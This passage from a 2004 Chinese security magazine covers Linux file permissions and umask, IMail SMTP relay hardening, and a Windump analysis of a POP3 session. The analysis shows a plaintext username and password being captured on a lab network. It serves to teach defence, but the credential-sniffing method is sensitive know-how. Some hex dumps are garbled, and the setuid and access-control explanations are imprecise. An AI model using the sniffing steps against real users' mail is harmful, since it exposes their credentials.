# 黑客防线2004合订本（二）第二部分

---

就是说，所有被写在 `common_dir` 里的文件都将属于组 `dev`。

| Access Class | User | Group | Other |
|---|---|---|---|
| Symbolic Mode | r w x | r w - | r - - |
| Binary Mode | 111 | 110 | 100 |
| Octal Equivalent | 7 | 6 | 4 |

# 改变文件和目录的权限

`chmod(1)` 命令控制着文件和目录权限的改变。仅仅所有者（owner）或者超级用户才可以改变文件和目录的权限。

执行 `chmod(1)` 命令有两种模式：一种是 absolute mode 模式，第二种是 symbolic mode 模式。

### 1. 用八进制的值（absolute mode）改变文件权限

对指定的权限使用八进制值，写入一个数值来达到想要的权限改变。这些数字被用在设置 owner、group 和 other（everyone else）这 3 个类别的权限上。下表是每个八进制值的含义：

| 值 | 权限 | 描述 |
|---|---|---|
| 0 | --- | 没有权限 |
| 1 | --x | 仅有执行权限 |
| 2 | -w- | 仅有写权限 |
| 3 | -wx | 写和执行权限 |
| 4 | r-- | 仅有读权限 |
| 5 | r-x | 读和执行权限 |
| 6 | rw- | 读和写权限 |
| 7 | rwx | 读／写／执行权限都有 |

利用上表，你可以用 `chmod(1)` 修改文件权限，如下：

```bash
user@myhost$ ls -l
-rwxrw-r-- 1 dave sysadmin 36012 Aug 21 01:06 run.pl
```

从上面的例子中可以看出，dave 是所有者，而且文件属于组 `sysadmin`。从第一个域里，我们知道这是一个普通文件，因为最左边的字符显示为 `-`。Dave 用 Perl 脚本写成的这个文件，使所有者（owner）有写、读和执行权限。组 `sysadmin` 也有读和写文件的权限。其他用户仅仅可以读文件。用这些信息，我们更清楚地看到这个文件的权限。

去除其他用户（other）读文件的权限，可以利用 `chmod(1)` 命令来实现，如下：

```bash
user@myhost$ ls -l run.pl
-rwxrw-r-- 1 dave sysadmin 36012 Aug 21 01:06 run.pl
user@myhost$ chmod 760 run.pl
user@myhost$ ls -l run.pl
-rwxrw---- 1 dave sysadmin 36012 Aug 21 01:06 run.pl
```

从上面的例子可以看到，`run.pl` 被修改成其他用户没有读权限，只有组 `sysadmin` 中的用户和所有者（owner）拥有相应权限。

### 2. 用八进制的值（absolute mode）改变目录权限

文件和目录权限的基本区别在于它们控制对资源的访问方式。根据下表可以看出每个八进制值在目录权限中的含义。可以用 `chmod(1)` 来修改目录权限，如下：

```bash
user@myhost$ ls -ld games
drwxr-x--- 1 dave sysadmin 1024 Aug 21 01:06 games
```

从上面知道，dave 为所有者，目录属于组 `sysadmin`。用这些信息，我们更清楚地看到这个目录的权限：

| Access Class | User | Group | Other |
|---|---|---|---|
| Symbolic Mode | r w x | r - x | - - - |
| Binary Mode | 111 | 101 | 000 |
| Octal Equivalent | 7 | 5 | 0 |

以下是允许其他用户访问该目录的方法，用 `chmod(1)` 如下操作：

```bash
user@myhost$ ls -ld games
drwxr-x--- 1 dave sysadmin 1024 Aug 21 01:06 games
user@myhost$ chmod 755 games
user@myhost$ ls -ld games
drwxr-xr-x 1 dave sysadmin 1024 Aug 21 01:06 games
```

### 3. 用标记（symbolic mode）改变权限

这个方法在改变文件权限的两种方法中比较简单。一个完整的例子如下：

```bash
dave@myhost$ ls -l nsmall
drwxr-xr-x 2 dave dave 1024 Aug 7 00:17 nsmall

dave@myhost$ chmod go= nsmall
dave@myhost$ ls -l nsmall
drwx------ 2 dave dave 1024 Aug 7 00:17 nsmall
```

对任何人去除写权限，可以用减号 `-` 符号：

```bash
dave@myhost$ chmod a-w myfile
dave@myhost$ ls -l myfile
-r--r--r-- 1 dave dave 424 Aug 23 23:10 myfile
```

你还可以控制 `setuid` 和 `setgid` 在文件和目录上的设置，如下：

```bash
1.  root@myhost# ls -l
2.  drwxr-xr-x 2 root sysadmin 1024 Aug 24 01:18 groupdir
3.  -rwxr-x--- 1 root sysadmin 8077 Aug 24 01:19 myprog
4.  drwxr-xr-x 2 root root 1024 Aug 24 01:18 spool
5.  root@myhost# chmod g+ws groupdir
6.  root@myhost# chmod u+s myprog
7.  root@myhost# chmod o+t,a+w spool
8.  root@myhost# ls -l
9.  drwxrwsr-x 2 root sysadmin 1024 Aug 24 01:18 groupdir
10. -rwsr-x--- 1 root sysadmin 8077 Aug 24 01:19 myprog
11. drwxrwxrwt 2 root root 1024 Aug 24 01:18 spool
```

这个例子使用了 `chmod(1)` 的许多特性。从上面的例子可以看出，`groupdir` 和 `myprog` 都属于组 `sysadmin`。还有一点值得注意，就是只有所有者（owner）有写权限。

第五行：给组增加写权限并设置 `setgid` 来访问 `groupdir` 目录。这样可以使组 `sysadmin` 里的成员在这里有写权限，并保留组 `sysadmin`。

第六行：给 `myprog` 增加 `setuid` 位。也就是说，用户被允许执行 `myprog`。

第七行：给 `spool` 增加 Sticky Bit，同时增加所有用户的写权限。

第八到十一行：显示被修改过的文件和目录。

# 改变组和文件的所有权

用 `chown(1)` 命令来改变文件和组的所有权（仅能被 root 使用）。提供一个新的用户名和文件，如果想改变文件的所有者，可以用 `chown(1)` 命令，如下：

```bash
root@myhost# ls -l myfile
-r--r--r-- 1 fred sysadmin 424 Aug 23 23:10 myfile

root@myhost# chown root myfile
root@myhost# ls -l myfile
-r--r--r-- 1 root sysadmin 424 Aug 23 23:10 myfile
```

如果是变更组名和文件，如下：

```bash
root@myhost# ls -l myfile
-r--r--r-- 1 fred sysadmin 424 Aug 23 23:10 myfile

root@myhost# chgrp root myfile
root@myhost# ls -l myfile
-r--r--r-- 1 fred root 424 Aug 23 23:10 myfile
```

当然，用这个命令也可以同时改变所有者和组，如下：

```bash
root@myhost# ls -l myfile
-r--r--r-- 1 fred sysadmin 424 Aug 23 23:10 myfile

root@myhost# chown root:root myfile
root@myhost# ls -l myfile
-r--r--r-- 1 root root 424 Aug 23 23:10 myfile
```

# 设置 Umask

在系统上，`umask` 命令常用来确定缺省的文件创建模式。假如建立文件时不重视文件的权限设置，这样用户就会在不经意间把读和写的权限给一些不应当有这些权限的人。典型的 `umask` 设置包括：022、027 和 077。一般情况下，`umask` 设置在 `/etc/profile` 里，因此它适用于系统上的所有用户。

`umask` 设置为 777 时，新建立的文件将没有读、写和执行权限分配给任何人。`mask` 设置为 666 时，将促使新创建的文件拥有一个设置为 111 的 mask。例如可以像下面这样设置：

```bash
# Set the user's default umask.
umask 033
```

确定 root 的 `umask` 设置为 077，这将使其他用户失去对其新建文件的读、写和执行权限，除非再用 `chmod` 命令来改变。在这种情况下，新创建的目录默认权限将是 700。使用 033 的 `umask` 时，新创建的目录默认权限为 744，新创建的文件默认权限为 644。

`setuid` 和 `setgid` 文件都存在着安全隐患，所以我们应当时刻监视这些文件。用以下命令可以找出系统上所有这些文件：

```bash
root@myhost# find / -type f -perm +6000 -ls
```

## 总结

总之，Linux 下文件和文件系统的安全问题是一个非常复杂的问题。从站点上下载下来的程序，假如要以 root 身份运行，就算是信任的程序也要进行校验。还有，在对系统文件的权限进行设置之前，应该知道自己应该怎样做，以规则为先。这样对系统的安全是有好处的。最后希望文章对大家有所帮助，谢谢。

刘流：作为流行的 E-Mail 服务系统，IMail 最近漏洞层出不穷，我们不得不给各位管理员打上一针“预防针”。其实 IMail 有着自身的安全设置，如何对其进行有效的设置，提高邮件以及系统本身的安全性，是一个重要的安全问题。本文是作者的一个小技巧，希望对各位网管有帮助。



# 小技巧加强

# IMail 安全性

文 / 可心

IMail 是一个流行的电子邮件服务器，通过 Web 接口为客户提供邮件服务，并且 IMail 与大多数常见的电子邮件协议兼容，例如 SMTP、POP3、IMAP4、LDAP 等，但是它存在缓冲区溢出漏洞。问题在于 IMail SMTP 守护进程在处理输入数据时没有进行正确的边界检查。远程攻击者利用这点能使 IMail SMTP 服务器发生缓冲区溢出，从而执行攻击者提供的代码。

> （刘流：这个漏洞的详细情况上几期《黑防》上有介绍，大家可以看看原来的杂志复习一下哦！）

我们可以自己手动设置自己的邮件服务器和管理 SMTP 协议的安全性。

- 1. 设置邮件中转选项，防止成为大量垃圾邮件的中转站。
- 2. 设置什么是本地用户。
- 3. 验证收到的邮件，核查是否来自于一个有效的用户，或者拒绝将它列入邮件清单。
- 4. 设置 IP 地址，或者列一个 IP 地址清单给服务器，说明哪些可以接受，哪些拒绝接收。

## 如何对 SMTP 进行设置

- 1. 双击控制面板里的 IMail 图标，在出现的 IMail 服务对话框里选择 SMTP 安全选项，这时出现 SMTP 安全属性对话框。
- 2. 在这个安全属性对话框中，对 SMTP 服务无论哪一个选项都设置成安全。
- 3. 点击应用并保存设置，关闭对话框。

（刘流：假如你用 SMTP 服务改变 IP 地址，你必须先关闭 SMTP 服务并重启，系统才对设置生效。）

## 设置邮件中转选项

用邮件中转选项可以防止大量未经授权邮件的投递，例如大家都知道的垃圾邮件。它可能将你的邮件系统变成垃圾邮件的中继器。邮件中转选项应设置成只允许本地用户，或使用本地主机的用户，通过自己的服务器中转。在这之前要先设定什么是本地。

### 1. 中转对任何人

允许 SMTP 服务接受投递给其他主机的邮件，还可以再投递给其他适当的主机。这是邮件系统的缺省设置。

### 2. 中转选项

假如邮件系统认为邮件是来自本地指定的 IP 地址时，就仅允许接受去往其他主机的邮件。假如你用这个选项，你要指定任何你接受邮件的主机，也要建立一个登录在 `\winnt\system32\drivers\etc\hosts` 文件里的主机名。假如你的 DNS 设置成接受邮件对第一位域（`mailer1.ipswitch.com`），或者也接受其他的域（`mailer2.acme.com`），MX 记录如下：

```text
MX
10 mailer1.ipswitch.com
20 mailer2.acme.com
```

### 3. 中转邮件对于域（mailer2.acme.com）

在邮件系统上，你需要指定它的 IP 地址在中转选项（Relay mail for）里，登录主机名和 IP 地址到主机文件里。

指定有效的 IP 地址，点击 addresses 按钮。

- 1. 点击添加（Add）按钮，增加／接受本地用户。
- 2. 在 IP 地址栏里，添加对于邮件系统来说是本地的 IP 地址。添加一个计算机组时，选择 Group of Computers 选项，在 IP 地址和子网络栏里，添加一些经过考虑的安全本地 IP 地址。非本地系统企图传递邮件时，就可能出现如下消息：

```text
550 unknown local host vs. not a gateway
```

## 设置使用 SMTP 服务

可以设置指定的 IP 地址使用 SMTP 或者拒绝使用。对于没有权限使用系统的主机，邮件系统将拒绝建立连接。这非常有用，它可以帮助识别未经授权邮件发送人的 IP 地址。

### 1. 拒绝一个指定的组或者计算机

- 1. 点击控制权限（Control access），并选择 Granted Access 选项。
- 2. 在 IP 地址栏里，输入不能访问 SMTP 服务的 IP 地址。拒绝一个计算机组时，可选择 Group of Computers 选项。例如，一个 C 类地址为 218.21.50.0，子网掩码为 255.255.255.0，这样就可以阻止 254 个系统。
- 3. 点击“确定”，重启服务后，改变的设置才可以生效。

### 2. 有权限使用的组或者计算机

- 1. 点击 Control access 选项，在出现的对话框里选择 Denied Access 选项。
- 2. 点击添加（Add）。在设置之前，也要关闭服务，在重启服务以后，设置才可以生效。

邮件系统的安全是非常重要的。垃圾邮件的传播者就是利用一些公司的邮件服务器来发送他们的垃圾邮件，但钱却是由中转者付的。控制邮件服务器不被人利用，可节省金钱和网络资源，阻止不受欢迎的邮件，继而防止系统变成垃圾邮件的“中转站”。所以最近的垃圾邮件才如此疯狂！让我们一起来清理掉它们吧！

- 难度等级：高
- 适合对象：网络管理员和入侵爱好者
- 前置知识：网络协议，Sniffer，Windump

刘流：邮局协议就是我们通常所说的 POP3 协议——Post Office Protocol Version 3，它是绝大多数网络用户天天都要用到的一个协议。有了它，我们就可以从网上把邮件收到自己的电脑里慢慢观看。微软的 Outlook 和国产的 Foxmail 是邮局协议最著名的两个应用，相信大家对它们一定都不陌生。但是隐藏在这两个软件背后的邮局协议，究竟在收信时具体起到一个什么样的作用，恐怕我们大多数人就不那么清楚了。本文的目的就是和大家一起深入剖析邮局协议的内幕，用协议分析的手段让大家认识到邮局协议的“庐山真面目”——本文条理清晰，步骤明确，技术要点掌握得相当好，而且深入浅出，非常值得一看。想深入学习网络和数据传输的朋友可以仔细研究！


## 通通透透协议分析

文／图 netrity

## ——深入剖析邮局协议

协议分析是网络管理员和入侵分析员必备的基本技能。对于前者而言，协议分析可以帮助他们正确判断并定位网络流量中的故障问题；对于后者而言，协议分析就是对付黑客入侵的重要手段，它可以帮助入侵分析员识别正常数据流和恶意数据流的区别。

要想深入分析一种协议，我们就必须要用到协议分析软件——通常称之为 Sniffer。在 Windows 平台下面有两个著名的 Sniffer 软件：Windump 和 Sniffer Pro。前者是在命令行下使用，短小精悍；后者为图形界面，功能强大。实际工作中，二者可以结合使用以达到最佳效果。本文中我们将采用 Windump 对邮局协议进行深入分析，大家可以在 http://windump.polito.it/install/default.htm 下载免费软件和 WinPcap 3.0 的驱动。

下面我们先用 Foxmail 发送一封邮件，然后在接收该邮件的时候用 Windump 捕捉数据流。该邮件的内容很简单，看起来大致是这样的，请看图 1：其中信的主题是：0000000000；内容正文是 10 个 0 和 10 个 1；而收件人和发件人都是同一个人：fengyu；邮件服务器的地址是 192.168.0.9，这是我在局域网中构建的一个邮件服务器。这是用 Foxmail 接收下来后所看到的信件内容，接下来我们用 Windump 来查看接收这封信时到底都发生了一些什么样的网络数据流。



我们使用 “Windump -X -n -s 0 port 110” 的方式来捕捉这次的数据，其中 “-X” 参数表示在屏幕上显示详细的 16 进制和 ASCII 码；“-n” 表示相互通信的源和目的主机的 IP 地址用点分十进制方式显示出来；“-s 0” 表示显示信件中的所有数据，如果不加这个参数，WinDump 会自动截断邮件正文内容；“port 110”表示只捕捉从 110 端口的数据流，这是 POP3 协议使用的默认端口。

先看前三行数据流（为了简化说明，我在此省略了其他无关紧要的数据提示）：

## 第一行

```text
14:41:05.112086 IP 192.168.0.3.3697 > 192.168.0.9.110: S 137432193:137432193(0) win 64240 <mss 1460,nop,nop,sackOK> (DF)
```

## 第二行

```text
14:41:05.112507 IP 192.168.0.9.110 > 192.168.0.3.3697: S 2708538588:2708538588(0) ack 137432194 win 65535 <mss 1460,nop,nop,sackOK> (DF)
```

## 第三行

```text
14:41:05.112535 IP 192.168.0.3.3697 > 192.168.0.9.110: . ack 1 win 64240 (DF)
```

这是一个典型的 3 步握手，说明 POP3 是基于 TCP 而不是 UDP 协议。

第一行表示在 14 点 41 分时，192.168.0.3 的电脑（就是我们自己的电脑）从 3697 端口向 192.168.0.9（就是我们的邮件服务器）的 110 端口发起连接请求 Syn；

第二行表示 192.168.0.9 的计算机向 192.168.0.3 返回应答 Syn/Ack；

第三行 192.168.0.3 表示“收到”（Ack）。

经过这 3 行的成功握手后，双方就可以进行数据的传输了，我们接着往下看：

```text
14:41:05.115513 IP 192.168.0.9.110 > 192.168.0.3.3697: P 1:52(51) ack 1 win 65535 (DF)
0x0000  4500 005b 0c6c 4000 8006 6cd4 c0a8
0x0010  c0a8 0003 006e 0e71 a171 04dd 0831
0x0020  5018 ffff d385 0000 2b4f 4b20 5831
0x0030  542d 504f 5033 2053 6572 7665 7220
0x0040  7665 7263 6875 616e 2028 494d 6169
0x0050  382e 3032 2d31 290d 0a
```

这段数据是邮件服务器给 192.168.0.3 的反馈信息，其实也就是 Foxmail 所收到的数据。从这里起，POP3 协议会话就正式开始了。从右边的 ASCII 码中我们可以看到邮件服务器名是 loverchuan，系统版本是 Imail8.02-1。左边是 16 进制，包括 IP、TCP 的包头和数据正文，我们暂时可以不要理会。

```text
14:41:05.131297 IP 192.168.0.3.3697 > 192.168.0.9.110: P 1:14(13) ack 52 win 64189 (DF)
0x0000  4500 0035 31de 4000 8006 4788 c0a8
0x0010  c0a8 0009 0e71 006e 0831 0c82 a171
0x0020  5018 fabd 6290 0000 5553 4552 2066
0x0030  656e 6779 750d 0a
```

这一段是 192.168.0.3 向邮件服务器发送的一组数据，它对邮件服务器说：192.168.0.3 用“fengyu”作用户名来登录邮箱。其中大写的“USER”是 POP3 协议中的关键字，后面紧跟的就是用户名。

```text
14:41:05.134708 IP 192.168.0.9.110 > 192.168.0.3.3697: P 52:76(24) ack 14 win 65522 (DF)
0x0000  4500 0040 0c6d 4000 8006 6cee c0a8
0x0010  c0a8 0003 006e 0e71 a171 0510 0831
0x0020  5018 fff2 2f49 0000 2b4f 4b20 7365
0x0030  6e64 2079 6f75 7220 7061 7373 776f 7264
0x0040  0d0a
```

紧接着邮件服务器告诉 192.168.0.3：用户名 OK，请发送你的密码（send your password）。

```text
14:41:05.137109 IP 192.168.0.3.3697 > 192.168.0.9.110: P 14:27(13) ack 76 win 64165 (DF)
0x0000  4500 0035 31e3 4000 8006 4783 c0a8
0x0010  c0a8 0009 0e71 006e 0831 0c8f a171
0x0020  5018 faa5 ff48 0000 5041 5353 2031
0x0030  3233 3435 360d 0a
```

192.168.0.3 在收到邮件服务器的通知后就把自己的密码发送过去，从右边的 ASCII 码中我们可以清楚地看见密码是 123456，这里的“PASS”也是 POP3 协议中的关键字。

```text
14:41:05.150074 IP 192.168.0.9.110 > 192.168.0.3.3697: P 76:107(31) ack 27 win 65509 (DF)
0x0000  4500 0047 0c6e 4000 8006 6ce6 c0a8
0009        E..G.n@.....l...
0x0010  c0a8 0003 006e 0e71 a171 0528 0831
0c9c        .....n.q.q.(.1.
0x0020  5018 ffe5 c749 0000 2b4f 4b20 6d61
696c        P....I..+OK.mail
0x0030  6472 6f70 206c 6f63 6b65 6420 616e
6420        drop.locked.and
0x0040  7265 6164 790d 0a
ready..
```

在这一步中，邮件服务器告诉 192.168.0.3：密码正确，身份验证已经通过，你可以发送下一步的命令了。

```text
14:41:05.153850 IP 192.168.0.3.3697 > 192.168.0.9.110: P 27:33(6) ack 107 win 64134 (DF)
0x0000  4500 002e 31e8 4000 8006 4785 c0a8
0003        E.....1.@...G...
0x0010  c0a8 0009 0e71 006e 0831 0c9c a171
0547        .....q.n.1...q.G
0x0020  5018 fa86 c7cb 0000 5354 4154 0d0a
P.....STAT..
```

192.168.0.3 收到邮件服务器的通知后就发送一个“STAT”命令，这个命令在 POP3 协议中表示请求服务器发回关于邮箱的统计资料，如邮件总数和总字节数。

```text
14:41:05.156967 IP 192.168.0.9.110 > 192.168.0.3.3697: P 107:118(11) ack 33 win 65503 (DF)
0x0000  4500 0033 0c6f 4000 8006 6cf9 c0a8
0009        E..3.o@.....l...
0x0010  c0a8 0003 006e 0e71 a171 0547 0831
0ca2        .....n.q.q.G.1.
0x0020  5018 ffdf 4447 0000 2b4f 4b20 3120
3836        P...DG..+OK.1.86
0x0030  360d 0a
6..
```

邮件服务器在收到 192.168.0.3 的“STAT”命令后将邮件总数和总字节数反馈回来，从 ASCII 码中可以看见“+OK 1 866”，这表示邮件总数是 1 个，总字节数为 866。

```text
14:41:05.159744 IP 192.168.0.3.3697 > 192.168.0.9.110: P 33:39(6) ack 118 win 64123 (DF)
0x0000  4500 002e 31ed 4000 8006 4780 c0a8
0003        E.....1.@...G...
0x0010  c0a8 0009 0e71 006e 0831 0ca2 a171
0552        .....q.n.1...q.R
0x0020  5018 fa7b c2d8 0000 5549 444c 0d0a
P..{....UIDL..
```

192.168.0.3 用“UIDL”命令向邮件服务器请求返回邮件唯一的标识符。

```text
14:41:05.162682 IP 192.168.0.9.110 > 192.168.0.3.3697: P 118:147(29) ack 39 win 65497 (DF)
0x0000  4500 0045 0c70 4000 8006 6ce6 c0a8
0009        E..E.p@.....l...
0x0010  c0a8 0003 006e 0e71 a171 0552 0831
0ca8        .....n.q.q.R.1.
0x0020  5018 ffd9 faf1 0000 2b4f 4b20 3120
6d65        P.......+OK.1.me
0x0030  7373 6167 6573 2028 3836 3620 6f63
7465        ssages.(866.octe
0x0040  7473 290d 0a
ts)..
```

邮件服务器告诉 192.168.0.3：第一个邮件总长度为 866 字节。

```text
14:41:05.358313 IP 192.168.0.3.3697 > 192.168.0.9.110: ack 147 win 64094 (DF)
```

192.168.0.3 发出 ACK 信息表示收到，此处除了 TCP/IP 包头外没有其他数据。

```text
14:41:05.358746 IP 192.168.0.9.110 > 192.168.0.3.3697: P 147:163(16) ack 39 win 65497 (DF)
0x0000  4500 0038 0c71 4000 8006 6cf2 c0a8
0009        E..8.q@.....l...
0x0010  c0a8 0003 006e 0e71 a171 056f 0831
0ca8        .....n.q.q.o.1.
0x0020  5018 ffd9 12b8 0000 3120 3337 3735
3933        P.......1.3775
0x0030  3030 350d 0a2e 0d0a
005....
```

邮件服务器继续向 192.168.0.3 发送数据，其中的“377593005”应该表示反馈给 192.168.0.3 的 UIDL。

```text
14:41:05.361173 IP 192.168.0.3.3697 > 192.168.0.9.110: P 39:45(6) ack 163 win 64078 (DF)
0x0000  4500 002e 31f4 4000 8006 4779 c0a8
0003        E.....1.@...Gy..
0x0010  c0a8 0009 0e71 006e 0831 0ca8 a171
057f                q..1  q..
0x0020  5018 fa4e bcca 0000 4c49 5354 0d0a
P...LIST..
```

192.168.0.3 用“LIST”命令向邮件服务器查询邮件数量和每个邮件的大小。

```text
14:41:05.364085 IP 192.168.0.9.110 > 192.168.0.3.3697: P 163:192(29) ack 45 win 65491 (DF)
0x0000  4500 0045 0c72 4000 8006 6ce4 c0a8
0009                E..r@.......
0x0010  c0a8 0003 006e 0e71 a171 057f 0831
0cae                ...n.q...
0x0020  5018 ffd3 fac4 0000 2b4f 4b20 3120
6d65                P.....+OK 1 me
0x0030  7373 6167 6573 2038 3636 206f 6374
7465                ssages 866 octe
0x0040  7473 0d0a
ts..
```

邮件服务器告诉 192.168.0.3：总共一个邮件，长度为 866 个字节。

```text
14:41:05.558951 IP 192.168.0.3.3697 > 192.168.0.9.110: ack 192 win 64049 (DF)
```

这段数据是 192.168.0.3 向邮件服务器发去的 Ack 回应，表示“收到”，此处只有 IP 和 TCP 数据包头，不包含其他数据。

```text
14:41:05.559338 IP 192.168.0.9.110 > 192.168.0.3.3697: P 192:202(10) ack 45 win 65491 (DF)
0x0000  4500 0032 0c73 4000 8006 6cf6 c0a8
0009                E..2.s@.....
0x0010  c0a8 0003 006e 0e71 a171 059c 0831
0cae                ...n.q...
0x0020  5018 ffd3 ad2a 0000 3120 3836 360d
0a2e                P.....1 866..
0x0030
```

服务器再次向 192.168.0.3 发送“一个邮件，总长度 866 字节”的数据。

```text
14:41:05.564060 IP 192.168.0.3.3697 > 192.168.0.9.110: P 45:53(8) ack 202 win 64039 (DF)
0x0000  4500 0030 31fa 4000 8006 4771 c0a8
0003                E..01.@...Gq.
0x0010  c0a8 0009 0e71 006e 0831 0cae a171
05a6                ...q.n.1...q.
0x0020  5018 fa27 9597 0000 5245 5452 2031
0d0a                P..'....RETR 1..
```

192.168.0.3 使用“RETR 1”命令请求从邮件服务器获取第一个邮件的全部文本。

```text
14:41:05.566154 IP 192.168.0.9.110 > 192.168.0.3.3697: P 202:218(16) ack 53 win 65483 (DF)
0x0000  4500 0038 0c74 4000 8006 6cef c0a8
0009                E..8.t@.....
0x0010  c0a8 0003 006e 0e71 a171 05a6 0831
0cb6                ...n.q...
0x0020  5018 ffcb 19aa 0000 2b4f 4b20 3836
3620                P.....+OK 866
0x0030  6f63 7465 7473 0d0a
octets..
```

邮件服务器表示同意 192.168.0.3 的请求。

```text
14:41:05.759590 IP 192.168.0.3.3697 > 192.168.0.9.110: ack 218 win 64023 (DF)
```

192.168.0.3 再次向邮件服务器发送 Ack 回应，表示“收到”，此处仍然没有除 IP 和 TCP 包头外的任何数据。

> 详细命令请看光盘“杂志相关”栏目。

以上是由邮件服务器发送给 192.168.0.3 总共 911 个字节，其中 866 个字节为邮件正文，45 个字节为 IP 和 TCP 的包头信息。该邮件正文就是我们在图 1 中所看见的内容，所不同的是邮件里的中文部分在这里以 Base64 编码显示。从这里我们也能看到主题（Subject）为 10 个 0，正文部分有 10 个 0 和 10 个 1。

```text
14:41:05.960234 IP 192.168.0.3.3697 > 192.168.0.9.110: ack 1089 win 63152 (DF)
```

192.168.0.3 在收到邮件内容后向邮件服务器发出 Ack 的回应，表示“我收到了”。

```text
14:41:06.385329 IP 192.168.0.3.3697 > 192.168.0.9.110: P 53:61(8) ack 1089 win 63152 (DF)
0x0000  4500 0030 3203 4000 8006 4768 c0a8
0003                E..02.@...Gh.
0x0010  c0a8 0009 0e71 006e 0831 0cb6 a171
091d                ...q.n.1...q.
0x0020  5018 f6b0 ab9c 0000 4445 4c45 2031
0d0a                P.......DELE 1..
```

192.168.0.3 在接收完邮件正文后向邮件服务器发出“DELE 1”的请求，以删除留在服务器上面的邮件副本。

```text
14:41:06.396742 IP 192.168.0.9.110 > 192.168.0.3.3697: P 1089:1106(17) ack 61 win 65475 (DF)

0x0000  4500 0039 0c76 4000 8006 6ccc c0a8 0009
0x0010  c0a8 0003 006e 0e71 a171 091d 0831 0cbe
0x0020  5018 ffc3 61fd 0000 2b4f 4b20 6d73 6720
0x0030  6465 6c65 7465 640d 0a

deleted.
```

邮件服务器向 192.168.0.3 发出“删除成功”的消息。

```text
14:41:06.400095 IP 192.168.0.3.3697 > 192.168.0.9.110: P 61:67(6) ack 1106 win 63135 (DF)

0x0000  4500 002e 3208 4000 8006 4765 c0a8 0003
0x0010  c0a8 0009 0e71 006e 0831 0cbe a171 092e
0x0020  5018 f69f c1a8 0000 5155 4954 0d0a

QUIT
```

192.168.0.3 向邮件服务器发出“QUIT”请求，以退出 POP3 会话。

```text
14:41:06.400534 IP 192.168.0.9.110 > 192.168.0.3.3697: P 1106:1139(33) ack 67 win 65469 (DF)

0x0000  4500 0049 0c77 4000 8006 6cdb c0a8 0009
0x0010  c0a8 0003 006e 0e71 a171 092e 0831 0cc4
0x0020  5018 ffbd da42 0000 2b4f 4b20 504f 5033
0x0030  2053 6572 7665 7220 7361 7969 6e67 2047
0x0040  6f6f 642d 4279 650d 0a

+OK POP3 Server saying Good-Bye.
```

邮件服务器收到 192.168.0.3 的退出请求后，发出“再见”的信息。至此，POP3 会话已经终止。

```text
第一行：14:41:06.403347 IP 192.168.0.3.3697 > 192.168.0.9.110: F 67:67(0) ack 1139 win 63102 (DF)
第二行：14:41:06.403774 IP 192.168.0.9.110 > 192.168.0.3.3697: . ack 68 win 65469 (DF)
第三行：14:41:06.435572 IP 192.168.0.9.110 > 192.168.0.3.3697: F 1139:1139(0) ack 68 win 65469 (DF)
第四行：14:41:06.435637 IP 192.168.0.3.3697 > 192.168.0.9.110: . ack 1140 win 63102 (DF)
```

